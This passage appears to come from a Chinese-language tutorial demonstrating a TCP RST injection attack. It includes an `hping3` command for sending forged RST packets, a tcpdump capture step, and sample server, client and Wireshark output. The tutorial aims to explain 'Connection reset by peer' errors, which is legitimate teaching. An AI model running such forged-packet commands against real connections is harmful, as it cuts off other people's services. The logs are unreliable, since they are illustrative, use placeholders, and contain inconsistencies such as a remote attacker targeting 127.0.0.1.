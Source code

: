 #### 3. 使用`hping3`工具发送伪造的RST包

在另一台机器上（攻击者机器）使用`hping3`发送伪造的RST包：

```sh
sudo hping3 -R -p 8080 -s client_port 127.0.0.1
```

其中：
- `-R` 表示发送RST包。
- `-p 8080` 指定目标服务器的端口。
- `-s client_port` 指定客户端的源端口。
- `127.0.0.1` 是服务器的IP地址。

### 抓包并分析

使用`tcpdump`抓取网络数据包，并使用Wireshark分析：

```sh
sudo tcpdump -i any tcp port 8080 -w rst_attack.pcap
```

在Wireshark中打开抓包文件`rst_attack.pcap`，过滤TCP端口8080的包：

```plaintext
tcp.port == 8080
```

你将会看到以下日志：

#### 服务器输出

```plaintext
Server listening on port 8080
Accepted connection from ('127.0.0.1', client_port)
Received from client: Hello, server!
Exception: [Errno 104] Connection reset by peer
```

#### 客户端输出

```plaintext
Received from server: Hello, client!
Exception: [Errno 104] Connection reset by peer
```

#### Wireshark抓包日志

```plaintext
No.     Time        Source                Destination           Protocol Length Info
1       0.000000    127.0.0.1             127.0.0.1             TCP      66     client_port → 8080 [SYN] Seq=0 Win=64240 Len=0 MSS=1460 SACK_PERM=1 TSval=123456789 TSecr=0 WS=128
2       0.000010    127.0.0.1             127.0.0.1             TCP      66     8080 → client_port [SYN, ACK] Seq=0 Ack=1 Win=64240 Len=0 MSS=1460 SACK_PERM=1 TSval=123456789 TSecr=123456789 WS=128
3       0.000020    127.0.0.1             127.0.0.1             TCP      54     client_port → 8080 [ACK] Seq=1 Ack=1 Win=64240 Len=0 TSval=123456789 TSecr=123456789
4       0.000030    127.0.0.1             127.0.0.1             TCP      66     client_port → 8080 [PSH, ACK] Seq=1 Ack=1 Win=64240 Len=12 TSval=123456789 TSecr=123456789
5       0.000040    127.0.0.1             127.0.0.1             TCP      66     8080 → client_port [PSH, ACK] Seq=1 Ack=13 Win=64240 Len=12 TSval=123456789 TSecr=123456789
6       0.000050    attacker_ip_address   127.0.0.1             TCP      54     attacker_port → 8080 [RST] Seq=1 Win=0 Len=0
```

通过上述示例，我们可以看到“Connection reset by peer”错误在客户端和服务器端同时发生的情况。这种错误表明连接在通信过程中被对方重置，导致通信中断。通过抓包工具，我们可以进一步分析并确认RST攻击的发生。